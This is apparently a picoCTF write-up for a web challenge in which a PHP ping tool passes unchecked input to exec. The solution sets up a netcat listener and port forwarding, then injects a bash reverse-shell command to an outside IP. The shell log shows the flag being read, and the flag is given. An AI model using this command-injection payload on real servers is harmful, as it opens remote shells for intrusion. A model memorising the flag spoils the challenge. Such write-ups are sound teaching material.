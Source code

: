 # fancy-alive-monitoring
Web Exploitation, 400 points

## Description:
> One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell3.picoctf.com:8587 (link)? 

```php
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>

```

## Solution:

The form expects an IP, but it actually allows us to send any command after the IP and it will be executed by `exec`.
We will use this to open a reverse shell.

### Step 1: Check your internal IP:
```
C:\Users\User>ipconfig

Windows IP Configuration

Wireless LAN adapter Wi-Fi:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : ******
   IPv4 Address. . . . . . . . . . . : 10.0.0.7
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.0.138
```

The internal IP in this example is 10.0.0.7.

### Step 2: Check your external IP:

This can be done by visiting [What is my IP?](https://www.whatismyip.com/).

```
Your Public IPv4 is: 87.71.89.17
Your IPv6 is: Not Detected
Your Local IP is: 10.0.0.7
```

The external IP in this example is 87.71.89.17.

### Step 3: Select a port number
We'll choose "4444".

### Step 4: Connect to your router and set up port forwarding:

The exact steps may vary depending on router:

```
Advanced -> Virtual Server -> Port Forwarding

Create the port forwarding rules to allow certain applications or server software to work on your computers if the Internet connection uses NAT.

Application Name 	External Packet 	Internal Host 	Delete
IP Address 	Protocol 	Port 	IP Address 	Port
test 	ALL 	TCP 	4444 	10.0.0.7 	4444 	
```

### Step 5: Setup netcat to listen on local server:

For example, using WSL:

```
user@computer:~$ nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

### Step 6: Execute attack:

We submit the following IP:
```
127.0.0.1; /bin/bash -c 'bash -i >& /dev/tcp/87.71.89.17/4444 0>&1'
```

Everything after `127.0.0.1;` is related to the reverse shell.

### Step 7: Reverse shell connects:
```
user@computer:~$ nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [18.224.26.75] port 4444 [tcp/*] accepted (family 2, sport 47032)
bash: cannot set terminal process group (7379): Inappropriate ioctl for device
bash: no job control in this shell
<ive-monitoring_1_14d0233714148d826b8d5f6bc1a8d624$ ls
ls
flag.txt
index.php
index.txt
xinet_startup.sh
<ive-monitoring_1_14d0233714148d826b8d5f6bc1a8d624$ cat flag.txt
cat flag.txt
Here is your flag: picoCTF{n3v3r_trust_a_b0x_96639d91}
<ive-monitoring_1_14d0233714148d826b8d5f6bc1a8d624$ exit
exit
exit
```

### Step 8: Delete port forwarding

Connect to your router and delete the port forwarding.

---

The flag: picoCTF{n3v3r_trust_a_b0x_96639d91}